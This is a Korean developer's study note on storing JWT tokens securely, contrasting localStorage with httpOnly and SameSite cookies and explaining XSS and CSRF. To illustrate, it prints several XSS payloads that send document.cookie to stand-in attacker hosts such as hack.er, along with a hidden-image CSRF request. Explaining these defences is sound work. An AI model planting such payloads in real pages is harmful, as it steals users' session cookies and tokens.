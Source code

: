 # TIL - 2023.10.05(목)

## JWT 토큰 저장

### 서문
쇼핑몰 팀 프로젝트에서 클라이언트는 서버로부터 발급받은 토큰을 `localStorage`에 저장했다. 그런데 `localStorage`는 보안 취약점이 있기 때문에 다른 곳에 저장해야 한다는 이야기를 듣게 되었다.
그렇다면 어디에 저장해야 할까?

### JWT 토큰 어디에 저장할까?

기존 방식은 JWT 토큰을 `localStorage`를 사용하여 브라우저 `Storage`에 저장하였다.

**LocalStorage**
```javascript
const {accessToken} = data;
localStorage.setItem('accessToken', accessToken);
```
- 로컬스토리지를 사용하여 key-value 형태의 데이터를 브라우저에 저장할 수 있다
- 로컬스토리지에 저장한 데이터는 브라우저 세션 간에 공유된다
  - 브라우저 탭 간에 공유 가능
  - 브라우저 탭을 닫아도 만료되지 않음

**크로스 사이트 스크립팅 (XSS) 공격**

XSS (Cross-Site Scripting) 공격이란 공격자가 삽입한 HTML 태그나 자바스크립트를 사용자의 브라우저에 동작시키는 공격이다
- 가짜 입력 폼에 의해 유저의 개인 정보를 도둑 맞는다
- 스크립트에 의해 유저의 쿠키 값이 도둑맞는다

```
안녕하세요! 반갑습니다.
<script src="http://hackr.jp/xss.jp"></script>
```
- 악의적인 사용자가 웹 사이트 게시글에 외부 스크립트 실행을 위한 `<script>` 태그를 삽입한다.

```javascript
// 스크립트
var content = document.cookie;
document.write("<img src=http://localhost/hacker/?");
document.write(content);
document.write(">");
```
- 삽입된 스크립트는 브라우저에서 사용자 쿠키 값을 탈취하여 자신의 웹 사이트로 요청을 보내도록 한다
- 요청에 의해 사용자의 쿠키 정보가 공격자의 웹 서버에 로그로 남게 된다

```html
<script>
var content = localStorage.getItem("key")
</script>
```
- 로컬 스토리지에 저장된 값도 공격자의 자바스크립트로 인해 탈취될 수 있다
- JWT 토큰도 사용자 정보나 다름 없기 때문에 아무 곳에나 저장해서는 안 된다!

```
// 악의적인 스크립트
<script>location.href="http://hack.er/Cookie.php?cookie="+document.cookie</script>

// 이스케이프 처리
&lt;script&gt;location.href=&quot;http://hack.er/Cookie.php?cookie=&quot;+document.cookie&lt;/script&gt;
```
- 또한 악의적인 HTML 삽입 공격으로부터 벗어나려면 HTML 태그를 이스케이프 처리해야 한다
- 이스케이프 처리로 인해 HTML 태그 기능이 동작하지 않게 된다

**그렇다면 대안은?**

XSS 공격으로 인해 `localStorage`에 저장할 수 없다면 어디에 저장해야 할까? 로컬 스토리지의 대안으로는 쿠키가 있다.

```java
final Cookie cookie = new Cookie("auth", "3");
cookie.setHttpOnly(true);
```
- 쿠키에는 `httpOnly` 속성을 설정하여 스크립트 조작으로 인한 XSS 공격으로부터 보호할 수 있다
- `httpOnly`로 설정된 쿠키는 자바스크립트로 접근할 수 없기 때문이다
  - 이전처럼 `document.cookie`를 입력해도 쿠키가 조회되지 않음

**쿠키 정말 괜찮나?**

그러면 쿠키에 `httpOnly` 속성을 설정하면 이제 안전한걸까? 그러나 쿠키에도 보안 문제가 존재할 수 있다

그것은 바로 `CSRF` (Cross-Site Request Forgery) 공격에 노출될 수 있다는 것이다

CSRF 공격은 사용자의 인증 권한을 사용하여 공격자가 서버의 상태를 갱신시키는 것을 말한다
- 인증된 유저의 권한으로 상품을 구입
- 인증된 유저의 권한으로 게시판에 글 작성

```javascript
// 공격자가 숨겨놓은 태그
<img src="http://facebook/change?userNameChanged"/>
```
- 만약 사용자가 `http://facebook` 웹 페이지 인증 정보로 쿠키를 가지고 있다면 CSRF 공격의 대상이 된다
- 공격자가 숨겨놓은 HTML 태그로 인해 `http://facebook`에 요청을 보내게 되면 브라우저에 저장된 쿠키가 같이 전송된다
- 웹 서버는 쿠키 값으로 인해 인증된 사용자라고 판단하여 공격자의 요청을 허용한다

```
Set-Cookie: auth=4; SameSite=Strict
```
- 쿠키에 `sameSite` 속성을 설정하여 CSRF 공격에 대비할 수 있다
- `sameSite`에 `strict` 값이 설정되면 해당 쿠키는 동일한 도메인에서만 사용 가능하다
- 즉, 브라우저에 띄워진 URL 과 쿠키의 `domain`이 다르면 브라우저는 쿠키를 전송하지 않는다

**그래서 결론은?**

`accessToken` 뿐만 아니라 `refreshToken`도 함께 사용해야 한다!
- `refreshToken`은 `httpOnly` 속성이 설정된 쿠키에 전송한다
- `accessToken`은 자바스크립트에서 로컬 변수에 저장한다

사용자가 url 을 이동할 때마다 `refreshToken`을 사용하여 `accessToken`을 새로 발급한다 
- `refreshToken`은 `accessToken` 발급에만 사용되기 때문에 리프레시 토큰만으로는 CSRF 공격이 불가능하다